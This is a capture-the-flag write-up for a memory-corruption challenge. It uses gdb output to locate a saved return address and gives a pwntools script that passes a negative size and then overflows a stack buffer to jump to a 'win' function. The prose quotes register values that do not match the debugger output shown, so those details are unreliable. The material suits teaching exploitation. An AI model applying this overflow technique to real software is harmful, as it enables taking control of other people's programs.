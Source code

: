 In this challenge, we have no `win` variable to overwrite.

The way we can divert flow of the program is by overwriting the return address.

We know that the base pointer `$rbp` points to the saved base pointer of the caller function.

Let's check this:

```
gef➤  x/a $rbp
0x7ffd98ad73d0: 0x7ffd98ad8400
```

The base pointer `$rbp` has the value `0x7fff0c8f8e90` and it points to `0x7fff0c8f9ec0` which is the `$rbp` of the caller function.

And the return address is stored right before the caller functions base pointer. In our case at `$rbp + 8`.

```
gef➤  x/a $rbp + 8
0x7ffd98ad73d8: 0x401c6b <main+238>
```

As we can see the return address is `main+238` and it is located at `0x7ffd98ad73d8`.

We want to replace this value with the address of the `win` function.

```
gef➤  disass win
Dump of assembler code for function win:
   0x0000000000401958 <+0>:     endbr64 
; -- snip --
```

As we can see the win function starts at `0x0000000000401958`.

We now have the information we need:

* [x] Location of buffer: `0x7ffd98ad7380`.
* [x] Location of stored return address: `0x7ffd98ad73d8`.
* [x] Address of win function: `0x0000000000401958`.

Let's calculate the padding required.

```
gef➤  p/d 0x7ffd98ad73d8 - 0x7ffd98ad7380
$3 = 88
```

We can now create our payload.

```python
from pwn import *

padding = b'A' * 88
payload = padding + p64(0x0000000000401958)

p = process('/challenge/babymem_level4.1')
p.recvuntil('size:')
p.sendline('-1')

p.recvuntil('bytes)!')
p.send(payload)
p.interactive()
```
